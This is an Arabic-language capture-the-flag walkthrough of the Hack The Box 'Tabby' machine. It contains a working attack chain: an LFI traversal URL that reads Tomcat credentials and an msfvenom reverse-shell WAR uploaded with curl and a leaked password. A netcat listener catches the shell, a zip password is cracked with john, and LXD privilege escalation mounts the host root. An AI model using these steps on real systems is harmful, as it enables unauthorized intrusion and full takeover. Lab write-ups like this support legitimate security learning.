 Created by fasto

My profile : https://www.hackthebox.eu/home/users/profile/

## Sammmry :



![Desktop View](/img/tabby/b.jpeg)


```
linux شغالة على easy machine عبارة عن Tabby
وبعد ذلك نرفع شال tomcatتمكننا من سحب كلمة سر lfi بالفحص المبدئي نجد
الذي user نقوم بكسره ثم نستخدم كلمة السر للحصول على zip fileونبحث لنجد
ootللحصول على alpine-builderنستخدم admو lxd بدوره ينتمي الى
```

- Sammmry :
- 1 enumeration
   - 1.1 Nmap
   - 1.2 Port
- 2 lfi
   - 2.1 shell
   - 2.2 Backup.zip
   - 2.3 zip crack
   - 2.4 User.txt
- 3 privilege escalation


## 1 enumeration

### 1.1 Nmap

```
nmap نبدا بفحص البورتات باستخدام
```

![Desktop View](/img/tabby/1.png)

#### نجد بورت 8080 و 80 مفتوحين  

80 : httpd

8080 :tomcat


### 1.2 Port

```
codee source اثناء تصفح بورت 80 نجد دومين في 
```
![Desktop View](/img/tabby/2.png)

```
عند فتح /etc/hostsفي domain نقوم باضافة
LFIوفحصه نجد انه مصاب بثغرة url
```
![Desktop View](/img/tabby/3.png)

```
http://10.10.10.194:8080 بعد فتح
/usr/shareتحت tomcat نكتشف ان
```
[http://tomcat.apache.org/tomcat-8.5-doc/manager-howto.html](http://tomcat.apache.org/tomcat-8.5-doc/manager-howto.html)

```
: ب password نسحب
http://10.10.10.194/news.php?file=../../../../../../usr/share/tomcat9/etc/tomcat-
users.xml
```

## 2 lfi

![Desktop View](/img/tabby/4.png)
### 2.1 shell

#### : حصلنا على كلمة المرور نقوم ب الدخول الى السيرفر

```
shellنتبع الشرح التالي لرفع
https://gist.github.com/pete911/
.warبصيغة msfvenom ب shell نقوم بانشاء
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.
LPORT=5555 -f war > shell.war

![Desktop View](/img/tabby/5.png)

```
الخاص بنا shell نرفع
```

```
curl --user 'tomcat':'$3cureP4s5w0rd123!' --upload-file shell.war
'http://10.10.10.194:8080/manager/text/deploy?path=/ts'
https://phantominfosec.wordpress.com/2020/07/08/htb-tabby-
walkthrough/
```



```
nc –lnvp 5555 نشغل
shell ثم نتصفح
```
[http://10.10.10.194:8080/ts](http://10.10.10.194:8080/ts)


![Desktop View](/img/tabby/7.png)
#### الان نحصل على اتصال
![Desktop View](/img/tabby/8.png)
### 2.2 Backup.zip

####  /var/www/html/files بعد البحث داخل السيرفر نجد في مسار    


ملف

16162020_backup.zip

```
نقوم بنقله الى جهازنا
ثم فك التشفير base64 قمت بتشفيره ب
```
Base 64 –w0 16162020_backup.zip


![Desktop View](/img/tabby/9.png)

base64 –d encoded >1.zip

### 2.3 zip crack

```
نجد انه محمي بكلمة سر unzipعند محاولة فك
```

![Desktop View](/img/tabby/11.png)

```
johnنقوم بكسرها باستخدام
```
zip2john 1.zip > out.txt
john out.txt -wordlist=rockyou.txt

```
user ashنقوم بتجريبها على admin@itنجد كلمة السر
```

![Desktop View](/img/tabby/12.png)


![Desktop View](/img/tabby/13.png)
### 2.4 User.txt

```
ash تمكنا بالدخول ب
```
![Desktop View](/img/tabby/14.png)
## 3 privilege escalation

```
عند البحث في lxdو adm ينتمي الى ash نجد ان id عند كتابة
privilege escalationجوجل نجد مقال يتحدث عن
https://www.hackingarticles.in/lxd-privilege-
escalation
```
```
alpine-builderنحمل
```
```
https://github.com/saghul/lxd-
alpine-builder.git
```
![Desktop View](/img/tabby/15.png)

```
lxc image import ./alpine-v3.12-x86_64-20201030_1631.tar.gz --alias fasto
lxc image list
```
![Desktop View](/img/tabby/r1.png)

lxd init


![Desktop View](/img/tabby/r2.png)
```
ash@tabby:~$ lxc init fasto groot -c security.privileged=true
ash@tabby:~$ lxc config device add groot mydevice disk
source=/ path=/mnt/root recursive=true
```

```
ash@tabby:~$ lxc start groot
ash@tabby:~$ lxc exec groot /bin/sh
```


![Desktop View](/img/tabby/r3.png)
```
/mnt/root/root نذهب الى root حصلنا على
flagنجد
```
![Desktop View](/img/tabby/r4.png)

